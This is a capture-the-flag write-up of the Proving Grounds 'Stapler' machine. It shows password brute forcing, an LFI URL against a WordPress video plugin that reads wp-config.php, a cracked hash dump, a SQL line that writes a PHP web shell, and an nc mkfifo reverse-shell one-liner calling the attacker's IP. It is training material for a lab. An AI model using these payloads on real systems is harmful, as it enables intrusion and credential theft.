

# Stapler
**Date:** March 5th 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Intermediate

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -Pn -sV -sC -T4 $ip`

```
PORT     STATE  SERVICE     VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Logged in as ftp
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp   open   tcpwrapped
80/tcp   open   http        PHP cli server 5.5 or later
|_http-title: 404 Not Found
139/tcp  open   netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
666/tcp  open   doom?
3306/tcp open   mysql       MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 7
|   Capabilities flags: 63487
|   Some Capabilities: DontAllowDatabaseTableColumn, LongPassword, InteractiveClient, Support41Auth, FoundRows, Speaks41ProtocolOld, SupportsLoadDataLocal, IgnoreSigpipes, SupportsCompression, LongColumnFlag, ODBCClient, Speaks41ProtocolNew, SupportsTransactions, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ."\x1E\x08iB\<:{ylY\x16%}\x10i\x14Q
|_  Auth Plugin Name: mysql_native_password

Host script results:
|_clock-skew: mean: 14s, deviation: 0s, median: 14s
| smb2-time: 
|   date: 2023-03-04T13:52:21
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: RED, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: red
|   NetBIOS computer name: RED\x00
|   Domain name: \x00
|   FQDN: red
|_  System time: 2023-03-04T13:52:21+00:00
```

An additional all ports scan picks up:

```
PORT      STATE SERVICE VERSION
12380/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tim, we need to-do better next year for Initech
```

That gives us a potential username to use.

And a UDP scan:

```
PORT    STATE SERVICE    VERSION
137/udp open  netbios-ns Samba nmbd netbios-ns (workgroup: WORKGROUP)
Service Info: Host: RED
```

<br>

### Gobuster Scan

Nothing found when running gobuster against the website.

<br>

## FTP Digging

We saw from the nmap scan that anonymous access is allowed so let's take a look at the server.


Ok, that gives us 3 potential usernames to work with.

I start hydra against FTP for each user and let it run for a couple minutes but don't have any luck.

<br>

## SMB Digging

I connect over using smbclient to see if we can list the shares and we can:

`smbclient -L //$ip/`


That gives 2 more usernames.

We don't have access to the print$ share but we find a few files in the kathy share that we can download:


The todo-list.txt reads:

```
I'm making sure to backup anything important for Initech, Kathy
```

And the vsftpd.conf file is just the standard config file with no credentials or anything like that in it.

I download the wordpress .gz file and check to see if it's a backup copy of an actual website hoping that the wp-config.php file exists with credentials in it, but they're not in there. It looks like a completely unconfigured wordpress release and I don't find anything useful.

Checking out the last 2 shares we find a file called ls over in /tmp:


I try to brute force the 5 users we have to far on SMB but don't have any luck. I also go back and try the 2 new users on FTP and that doesn't work either.

<br>

## Port 666 Digging

When trying to connect over with a browser it just displays what appears to be the contents of a binary file. Looking at the text it mentions message2.jpg so we'll likely get an image file out of this if we download it. I use curl to download the file but they're using HTTP/0.9 which it doesn't like:

`curl $ip:666 --output test`

```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (1) Received HTTP/0.9 when not allowed
```

I do the same thing but specify to use http0.9 this time:

`curl --http0.9 $ip:666 --output test`

```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11608    0 11608    0     0   174k      0 --:--:-- --:--:-- --:--:--  177k
```

Using the `file test` command to figure out what it is:

```
test: Zip archive data, at least v2.0 to extract, compression method=deflate
```

And running an `unzip test` command extracts a file called message2.jpg:


Aaaaand another username which I go back and try with hydra on FTP and SMB but again no luck.

<br>

## SSH Digging

I try and use hydra to brute force my way in to all of the usernames we've found so far, but again, no luck.

The nmap scan says it's running OpenSSH 7.2p2 and doing a searchsploit for that shows we can potentially enumerate valid usernames:

`searchsploit 7.2p2`


I pull down the python script with `searchsploit -m 40136` and then look through the code which looks alright to me.

I create a user.txt file with all of the usernames we've encountered so far and then run the script:

`python3 40136.py -U users.txt $ip`

It errors out with the following:

```
AttributeError: module 'time' has no attribute 'clock'
```

I do a little digging and find that time.clock() was removed in Python 3.8, and that we can use time.process_time() instead:


I modify the script and change both occurrences of time.clock() to time.process_time() and then run the script again:


It looks like based on the response time for a completely random user that doesn't exist vs what we gave it that it thinks scott and zoe are valid usernames with SSH.

I run it again just to see what happens and this time only zoe comes back as a valid user so I'm not sure I trust the results of this script.

<br>

## Website Digging

Visiting the main page just tells us:

```
The requested resource / was not found on this server.
```

And we didn't find anything with our gobuster scan either.

<br>

## Port 12380 Digging

Checking this out in a browser shows us the following:


Looking at the page source code shows us a comment with another username in it:


I run a `nikto -h $ip` on it and find another username in the certificate details:


We also see a robots.txt with a couple entries in it that give us a little more to dig into:

```
+ "robots.txt" contains 2 entries which should be manually viewed
+ Entry '/admin112233/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/blogblog/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
```

Note: when trying to view any of the additional content on port 12380 make sure to use HTTPS instead of HTTP or it will just redirect to the initial page you saw on this port.

Looking at /admin112233 displays the following and then redirects you over to xss-payloads.com:


Wanting to see what this page does if you don't allow the JavaScript to run I turn it off and refresh the page, which gives you a little kudos but nothing else:


The page source:

```html
<html>
<head>
<title>mwwhahahah</title>
<body>
<noscript>Give yourself a cookie! Javascript didn't run =)</noscript>
<script type="text/javascript">window.alert("This could of been a BeEF-XSS hook ;)");window.location="http://www.xss-payloads.com/";</script>
</body>
</html>
```

Checking out /blogblog:



It seems all of the posts are by John and there is the standard login page over at /wp-login.php so I fire up hydra and see if I can brute my way in as them after double checking that the john user exists:


`hydra -l john -P rockyou.txt $ip http-form-post '/blogblog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR'`

No luck there. I double check all of the other usernames we've found to see if they exist and everything except fred does exist on the blogblog site.

I run hydra on all of the valid usernames for 1 minute each and don't have any luck.

Time to see what gobuster finds for this:

`gobuster dir -u https://$ip:12380 -t 40 -k -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 21]
/robots.txt           (Status: 200) [Size: 59]
/javascript           (Status: 403) [Size: 303]
/phpmyadmin           (Status: 200) [Size: 10338]
/announcements        (Status: 200) [Size: 960]
```

Looking at /announcements shows us a message with yet another username:

```
Abby, we need to link the folder somewhere! Hidden at the mo
```

I run a gobuster on /announcements to see if it will find whatever hidden folder it's talking about but it doesn't find anything.

Moving on to /phpmyadmin:


Again I use hydra and give each username 1 minute of run time on the phpMyAdmin login page but it doesn't work.

I move back over to the WordPress site at /blogblog and run a wpscan on it:

`wpscan --disable-tls-checks --url https://$ip:12380/blogblog/ -v -t 20 -e vt,tt,u,vp,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive --api-token TOKEN`

There were a LOT of vulnerabilities listed but a large number were authenticated and the others were more related to things like XSS. 

```
 |  - Dave: Soemthing doesn't look right here

[+] WordPress version 4.2.1 identified (Insecure, released on 2015-04-27).
```

It also identified users on the WordPress site giving us a few more to work with:


I manually look through some of the directories that have directory listing enabled and find a plugin that wasn't listed by wpscan called advanced video embed:


Navigating to that directory and looking at the readme.txt file shows that the version of advanced video embed is 1.0, and it just so happens that searchsploit comes back with a hit on that:


And looking at the code after pulling it down with `searchsploit -m 39646`:


Looking through the code and reading a little about this exploit it appears all you need to do is navigate to a link and then the results will show up in the wp-content/uploads directory as a .jpeg file. I end up not using the script and navigating to:

```
https://192.168.56.148:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php
```

And then heading over to:

```
https://192.168.56.148:12380/blogblog/wp-content/uploads/
```


Alright that worked, let's pull that file down and take a look at it:

`wget --no-check-certificate https://192.168.56.148:12380/blogblog/wp-content/uploads/291509772.jpeg`


I test it on /etc/passwd and that works too, with this as a list of system users:


Unfortunately it does not work on /etc/shadow:

```
Warning: file_get_contents(../../../../../../etc/shadow): failed to open stream: Permission denied in
/var/www/https/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/inc/classes/class.ave
Post.php on line 78
```

Alright, we have some database credentials and port 3306 was open so let's login and see if we can find some user hashes to crack.

<br>

## MySQL Digging

`mysql -h $ip -u root -p`

And dumping the wp_users table in the wordpress database:

```
+----+------------+------------------------------------+---------------+-----------------------+------------------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email            | user_url         | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+-----------------------+------------------+---------------------+---------------------+-------------+-----------------+
|  1 | John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. | john          | john@red.localhost    | http://localhost | 2016-06-03 23:18:47 |                     |           0 | John Smith      |
|  2 | Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 | elly          | Elly@red.localhost    |                  | 2016-06-05 16:11:33 |                     |           0 | Elly Jones      |
|  3 | Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 | peter         | peter@red.localhost   |                  | 2016-06-05 16:13:16 |                     |           0 | Peter Parker    |
|  4 | barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 | barry         | barry@red.localhost   |                  | 2016-06-05 16:14:26 |                     |           0 | Barry Atkins    |
|  5 | heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 | heather       | heather@red.localhost |                  | 2016-06-05 16:18:04 |                     |           0 | Heather Neville |
|  6 | garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 | garry         | garry@red.localhost   |                  | 2016-06-05 16:18:23 |                     |           0 | garry           |
|  7 | harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 | harry         | harry@red.localhost   |                  | 2016-06-05 16:18:41 |                     |           0 | harry           |
|  8 | scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 | scott         | scott@red.localhost   |                  | 2016-06-05 16:18:59 |                     |           0 | scott           |
|  9 | kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 | kathy         | kathy@red.localhost   |                  | 2016-06-05 16:19:14 |                     |           0 | kathy           |
| 10 | tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 | tim           | tim@red.localhost     |                  | 2016-06-05 16:19:29 |                     |           0 | tim             |
| 11 | ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 | zoe           | zoe@red.localhost     |                  | 2016-06-05 16:19:50 |                     |           0 | ZOE             |
| 12 | Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. | dave          | dave@red.localhost    |                  | 2016-06-05 16:20:09 |                     |           0 | Dave            |
| 13 | Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 | simon         | simon@red.localhost   |                  | 2016-06-05 16:20:35 |                     |           0 | Simon           |
| 14 | Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. | abby          | abby@red.localhost    |                  | 2016-06-05 16:20:53 |                     |           0 | Abby            |
| 15 | Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 | vicki         | vicki@red.localhost   |                  | 2016-06-05 16:21:14 |                     |           0 | Vicki           |
| 16 | Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 | pam           | pam@red.localhost     |                  | 2016-06-05 16:42:23 |                     |           0 | Pam             |
+----+------------+------------------------------------+---------------+-----------------------+------------------+---------------------+---------------------+-------------+-----------------+
```

Well, that's quite a few hashes to check out for sure.

I throw all of those hashes in a file and run it through hashcat:

`hashcat -m 400 -w 3 -D 1,2 hash.txt rockyou.txt`

```
Recovered........: 12/16 (75.00%) Digests, 12/16 (75.00%) Salts
```

12 out of 16.. not bad. Hopefully some of them work on other srevices.

There are some other databases to take a look at. This one is the message table in the proof database:


We have some additional hashes in the users table of the mysql database, but they don't crack when I try.

<br>

## More FTP Digging

I create a creds.txt file which is just a colon seperated user:pass formatted text file and used hydra to see if I could login to any of the services with the hashes we cracked from the MySQL database, and it turns out we have one for FTP:


When logging in it looks like the elly user's FTP directory is set to /etc.

I try and upload a file and we don't have permissions to do so. I also try and change over to the /var/www directory to see if we can navigate over to the root of the web directory and upload files there, but that doesn't work either. Looks like a dead end.

<br>

## More SQL Digging

I've used a technique in the past where I used SQL to write a web shell to a file on the system. I look up some documentation on it and it looks like the user needs the file permission and the secure_file_priv is a setting that limits where you can upload the file.


I log back into the FTP server to see if I can verify the secure_file_priv setting in the config file. It's located at /etc/mysql/mysql.conf.d/mysqld.cnf which I download and find it's set to an empty directory, so that means we can write our file anywhere we want:

```
secure-file-priv = ""
```

And back in the MySQL database I check our privileges with the `show grants for current_user;` command, and we have everything since we're root:


Alright, we should be able to use this to upload a web shell to the system and finally get onto the box.

<br>

## System Access

We know the home directory of the blog is located in /var/www/https/blogblog/ from the error message earlier when we tried to get the /etc/shadow file, so we know where to point the outfile command.

I run the following while logged into MySQL:

```sql
select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/https/blogblog/wp-content/uploads/revshell.php';
```

And taking a look over in the /blogblog/wp-content/uploads folder shows it worked:


And testing it out with the id command:


I run a which nc command and it tells us it's in /bin/nc so we can nc for a reverse shell here.

Alright, let's finally get an initial foothold. I start up a listener on my system and use a URL encoded version of nc mkfifo:

```
https://192.168.56.148:12380/blogblog/wp-content/uploads/revshell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.49.56%204444%20%3E%2Ftmp%2Ff
```


NOTE: I was also able to login to the wordpress site as john using the password that was cracked and it's likely that we could have uploaded a malicious plugin or modified one of the .php files to get a reverse shell in case you prefer that method.

<br>

## System Enumeration

I run a `find / -name local.txt 2>/dev/null` to see where they're hiding our first local.txt flag and it's over in /home:

`wc -c /home/local.txt`

```
33 /home/local.txt
```

We require a password for `sudo -l`.

Running `getcap -r / 2>/dev/null` doesn't give us anything to use.

Looking for misconfigured SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything interesting or out of place.

Looking at `crontab -l` and /etc/crontab show no scheduled jobs. I'll run pspy later if necessary.

Looking at `ps aux` doesn't give us much but I notice this which explains the message2.jpg file we saw on port 666 earlier:

```
root      2008  0.0  0.2   5720  2640 ?        S    00:19   0:00 /bin/bash /usr/local/src/nc.sh
```


I look for all files owned by www-data with `find / -name www-data 2>/dev/null | grep -v /proc` but don't see anything useful.

I check for any files we can write to with `find / -writable 2>/dev/null` and notice this over in /usr/local/sbin:

```
-rwxrwxrwx  1 root root   51 Jun  3  2016 cron-logrotate.sh
```

Displaying the file:

```
#Simon, you really need to-do something about this
```

We checked for cronjobs but didn't see anything calling this so I'm not sure what to do with this for the moment. I upload pspy and let it run for a few minutes to see if anything potentially calls this that we couldn't see and no luck. I'll circle back to this later if necessary.

I find the password for the phpmyadmin user in the /etc/phpmyadmin/config-db.php file but it won't help us with anything:

```
$dbuser='phpmyadmin';
$dbpass='<REDACTED>';
```

I look through all of the users home directories and almost all of them don't contain anything except:

/home/peter:

```
drwx------  2 peter peter 4096 Jun  6  2016 .cache
-rw-r--r--  1 peter peter    0 Jun  3  2016 .sudo_as_admin_successful
-rw-r--r--  1 peter peter    0 Jun  9  2021 .zshrc
```

/home/zoe:

```
drwx------  2 zoe  zoe  4096 May  5  2021 .ssh
```

/home/JKanode:

```
-r--r--r--  1 JKanode JKanode  171 Jun  9  2021 .bash_history
```

Interesting, all of the other .bash_history files are empty but this one has something in it. Let's take a look:


2 passwords! I try and ssh over as peter and it works:


And quickly fix my shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

<br>

## Root

We saw this in our home directory earlier, let's see what we can run:

```
-rw-r--r--  1 peter peter     0 Jun  3  2016 .sudo_as_admin_successful
```

`sudo -l`

```

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: 
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
```

Well, that's that. I run `sudo bash` and get a root shell:


And waiting for us in /root is the proof.txt:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

If you've never used oh-my-zsh before you can play around with it on this box. Edit the .zshrc file and change the ZSH_THEME variable to:

```
ZSH_THEME="random"
```

Save and exit, then use the `su root` command to see how the ZSH shell changes. Switch over a few more times and you can see some of the themes.

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Downloading files from an **FTP** user that has anonymous login enabled
- Finding **SMB** shares we can access with null sessions and downloading files from them
- Using **nikto** to assess a website
- Running **wpscan** on a WordPress site that was found to enumerate users, version info, plugins, vulnerabilities and more
- Finding a plugin named **advanced video embed** that was vulnerable to **LFI** which we use to look at the wp-config.php file and get the database credentials
- Finding hashes in the **MySQL** database
- Cracking the hashes with **hashcat**
- Using **hydra** with the -C option to see what users have access to different services and finding a user was able to access **FTP**
- Using **SQL** with **into outfile** to write a web shell to the system
- Using that web shell for our initial foothold on the system
- Finding password information in a **.bash_history** file and using it to move over to another user
- Checking **sudo -l** shows the user we switched to can run anything without a password allowing us to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
